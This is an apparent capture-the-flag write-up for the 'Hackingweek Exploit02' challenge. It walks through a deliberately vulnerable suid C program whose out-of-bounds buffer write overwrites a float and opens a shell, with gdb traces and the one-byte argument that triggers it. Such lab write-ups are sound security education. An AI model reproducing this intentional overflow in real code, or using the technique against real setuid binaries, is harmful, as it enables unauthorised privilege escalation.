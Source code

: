 # Hackingweek - Exploit02
## Challenge Text

>
Connectez-vous en tant que guest (mot de passe: xxxxxxxxx) sur la machine 37.187.xx.xx. Vous trouverez la clef de validation cachée dans le fichier /home/exploit02/.secret.
`$> ssh guest@37.187.xx.xx`

- [vuln.c](./vuln.c)

## Solution

We connect to the remote host.
A suid binary with its source code (vuln.c) is in the home directory.


```c
#include <stdio.h>
#include <stdlib.h>

int
main (int argc, char **argv)
{
  if (argc < 3)
    {
      fprintf (stderr, "error: missing argument ! Usage: ./vulnerable 10 AAA\n");
      exit (EXIT_FAILURE);
    }

  int size = atoi(argv[1]);
  float fsize = ((float) size) / 100;
  if (size > 1024)
    {
      fprintf (stderr, "error: cannot go more than 1024 !\n");
      exit (EXIT_FAILURE);
    }
  else if (size < 0)
    {
      fprintf (stderr, "error: cannot be a negative number !\n");
      exit (EXIT_FAILURE);
    }

  float x;
  int i = 0;
  char buffer[1024];

  for (x = 0; x < fsize; x + 0.01)
    buffer[i++] = argv[2][0];

  for (i = 0; i < size; i++)
    printf(" %c", buffer[i]);
  fputs("\n", stdout);

  printf("x = %f\n", x); // Added for debug
  if (x > 80000000000000000000000000000000000000.0)
    system ("/bin/sh");

  return EXIT_SUCCESS;
}
```

The goal is clear : Bypass the following line to pop a shell

```c
if (x > 80000000000000000000000000000000000000.0)
```

### What is x ?


The vulnerable code is here :

```c
float x;
int i = 0;
char buffer[1024];

for (x = 0; x < fsize; x + 0.01)
  buffer[i++] = argv[2][0];
```

- x is never incremented
-> we should have an infinite loop

- the loop stop
-> the buffer overflow on x


We can clearly see it with some gdb magic :
```
$ sh compil.sh && gdb ./a.out
gdb-peda$ break * 0x080486a5
gdb-peda$ command 1
> print buffer
> print x
> continue
> end
gdb-peda$ r 11 a

[..]
Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2047 = 'a' <repeats 1023 times>"\377, "
$2048 = 0

Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2049 = 'a' <repeats 1024 times>
$2050 = 0

Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2051 = 'a' <repeats 1024 times>
$2052 = 1.35925951e-43

Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2053 = 'a' <repeats 1024 times>
$2054 = 3.49329694e-41
[..]
```

We can now assume that the value of x will depend on the value of `argv[2][0]`.

### Please let me in

```
$ ./a.out 11 $(echo -ne '\x7d')
 } } } } } } } } } } }  
x = 21059140958881314109814530731155652608.000000  
$
```

Not enough ! We try higher in the ascii table (man ascii).

```
$ ./a.out 11 $(echo -ne '\x7e')
 ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~  
x = 84570173979288520027308813300587823104.000000  
# exit  
$
```

```
$ ./a.out 11 $(echo -ne '\x7f')
             
x = 339615136492207134461438014706212143104.000000  
# exit  
$
```

Job is done.